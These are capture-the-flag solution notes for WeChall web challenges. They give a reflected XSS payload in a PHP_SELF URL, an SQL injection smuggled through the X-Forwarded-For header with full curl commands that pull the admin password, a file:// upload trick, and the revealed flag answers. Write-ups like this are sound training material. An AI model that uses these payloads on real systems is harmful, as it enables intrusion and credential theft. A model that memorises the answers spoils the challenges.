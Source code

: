 
### Yourself PHP (PHP, Exploit, XSS)
$_SERVER['PHP_SELF']

```
http://www.wechall.net/challenge/yourself_php/index.php/"><script>alert(1);</script>
```


### The Guestbook (Exploit, PHP, MySQL)
```php
function gbook_getIP()
{
	if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
		return $_SERVER['HTTP_X_FORWARDED_FOR'];
	} elseif (isset($_SERVER['HTTP_VIA'])) { 
		return $_SERVER['HTTP_VIA'];
	} else {
		return $_SERVER['REMOTE_ADDR'];
	}
}
```

X-Forwarded-For: 1.1.1.1',(select gbu_password from gbook_user where gbu_name='admin')) #

```curl
curl -b cookie.file -c cookie.file -X POST -d "username=Ranger" -d "password=********" -d "login=Login" https://www.wechall.net/login

curl -b cookie.file -c cookie.file --header "X-Forwarded-For: 1.1.1.1',(select gbu_password from gbook_user where gbu_name='admin')) #" -d "message=test&sign=Sign Guestbook" -X POST http://www.wechall.net/challenge/guestbook/index.php
```

```
TheBrownFoxAndTheLazyDog
```


### Crappyshare (Exploit, PHP)
http://www.wechall.net/challenge/crappyshare/crappyshare.php

Upload By URL: file://solution.php


```
ICaNSeEcLeArLyNoW
```


### Paranoid (Stegano)
In Captcha ?


### Training: Bacon Returns (Stegano, Encoding, Crypto, Training)
ref: http://blog.chrstm.com/2017/05/11/WeChall/
